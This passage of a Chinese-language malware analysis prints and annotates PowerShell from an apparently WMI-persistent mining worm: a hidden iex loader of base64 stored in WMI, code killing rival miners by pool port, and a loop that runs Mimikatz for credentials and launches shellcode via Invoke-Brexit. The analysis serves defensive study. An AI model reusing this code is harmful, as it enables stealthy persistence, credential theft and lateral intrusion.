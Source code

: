 ```powershell linenums="98"
}
```

```powershell linenums="127"
if (!$exist -and ($psids.count -le 8))
{
    $cmdmon="powershell -NoP -NonI -W Hidden `"`$mon = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['mon'].Value;`$funs = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['funs'].Value ;iex ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(`$funs)));Invoke-Command  -ScriptBlock `$RemoteScriptBlock -ArgumentList @(`$mon, `$mon, 'Void', 0, '', '')`""
    $vbs = New-Object -ComObject WScript.Shell
    $vbs.run($cmdmon,0)
}
```

116 行使用 `KillBot` 函数终止其他恶意软件：

```powershell linenums="116"
KillBot('Window_Core_Flush_Cach')
```

117-126 行检查并终止连接到常见挖矿池端口 `3333`、`5555`、`7777` 的进程：

```powershell linenums="117"
foreach ($t in $tcpconn)
{
    $line =$t.split(' ')| ?{$_}
    if (!($line -is [array])){continue}
    if (($line[-3].contains(":3333") -or $line[-3].contains(":5555") -or $line[-3].contains(":7777")) -and $t.contains("ESTABLISHED"))
    {
        $evid=$line[-1]
        Get-Process -id $evid | stop-process -force
    }
}
```

134-148 行定期窃取凭据发动攻击：

- 计算当前时间戳并与 WMI 中存储的上次执行时间 `flag` 比较
- 如果时间差大于 18000 秒（5 小时），则更新时间戳并执行攻击操作
    - 使用 Mimikatz (`$mimi`) 获取凭据
    - 调用 `Invoke-Brexit` 函数执行 ShellCode

```powershell linenums="134"
$timenow = (New-TimeSpan -Start (Get-Date "01/01/1970") -End (Get-Date)).TotalSeconds
$flagtime = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['flag'].Value
if(($timenow-$flagtime) -gt 18000){
    $StaticClass=New-Object Management.ManagementClass('root\default:Window_Core_Flush_Cach')
    $StaticClass.SetPropertyValue('flag' ,$timenow)
    $StaticClass.Put() | Out-Null
    $NTLM=$False
    $mimi = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['mimi'].Value
    $a, $NTLM= Get-creds $mimi $mimi
    $ipsu = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['ipsu'].Value
    $i17 = ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['i17'].Value
    $scba= ([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['sc'].Value
    [byte[]]$sc=[System.Convert]::FromBase64String($scba)
    Invoke-Brexit -scccccc $sc -ipsu $ipsu -i17 $i17 -nic $nic -a $a -NTLM $NTLM
}
```
